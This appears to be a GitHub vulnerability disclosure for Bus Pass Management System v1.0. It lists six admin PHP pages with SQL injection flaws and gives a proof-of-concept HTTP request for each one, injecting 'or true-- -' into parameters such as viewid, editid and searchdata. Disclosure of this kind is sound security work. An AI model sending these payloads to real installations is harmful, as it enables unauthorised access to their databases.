 # Bus-Vulnerabilities

# Author:
Javier Carabantes:  [@javicarabantes](https://twitter.com/javicarabantes).

## Short description
Multiple SQL injections detected in Bus Pass Management System Project v1.0


## Vulnerability description
Multiple files with different parameters were found where an SQL Injection vulnerability exists:

- buspassms/admin/view-enquiry.php
- buspassms/admin/pass-bwdates-reports-details.php
- buspassms/admin/changeimage.php
- buspassms/admin/search-pass.php
- buspassms/admin/edit-category-detail.php
- buspassms/admin/edit-pass-detail.php


## PoCs
A simple SQLi PoC is going to be executed on each URL: "or true-- -"


* File: buspassms/admin/view-enquiry.php **line 65**
```
vuln var: $vid
```

```
GET Request

GET /admin/view-enquiry.php?viewid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![enquiry SQLi](doc/1.png)



_________________




* File: buspassms/admin/pass-bwdates-reports-details.php **line 80**
```
vuln var: $fdate and $tdate
```

```
POST Request:

POST /admin/pass-bwdates-reports-details.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost:8083/admin/pass-bwdates-report.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Origin: http://localhost:8083
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Cache-Control: max-age=0

fromdate=2022-07-13&todate=2022-07-21'+or+true--+-&submit=
```
![betweendatesreport SQLi](doc/2.png)



_________________



* File:  buspassms/admin/changeimage.php **line 82**
```
vuln var: $eid
```

```
GET Request:

GET /admin/changeimage.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

```

![Change image SQLi](doc/4.png)



_________________



* File:  buspassms/admin/search-pass.php **line 89**
```
vuln var: $sdata
```

```
POST Request:

POST /admin/search-pass.php HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://localhost:8083
DNT: 1
Connection: close
Referer: http://localhost:8083/admin/search-pass.php
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

searchdata=-1%27+or+true--+-&search=

```
![search pass SQLi](doc/5.png)

_________________



* File:  buspassms/admin/edit-category-detail.php **line 89**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-category-detail.php?editid=-8%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```
![EditCatDetail SQLi](doc/6.png)

_________________



* File:  buspassms/admin/edit-pass-detail.php **line 97**
```
vuln var: $eid
```

```
GET Request:

GET /admin/edit-pass-detail.php?editid=-1%20or%20true--%20- HTTP/1.1
Host: localhost:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss; security_level=2; PHPSESSID=o45mh2nf8o8dm1aj99vrrldqn3; security=low; showhints=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![EditPassDetail SQLi](doc/7.png)
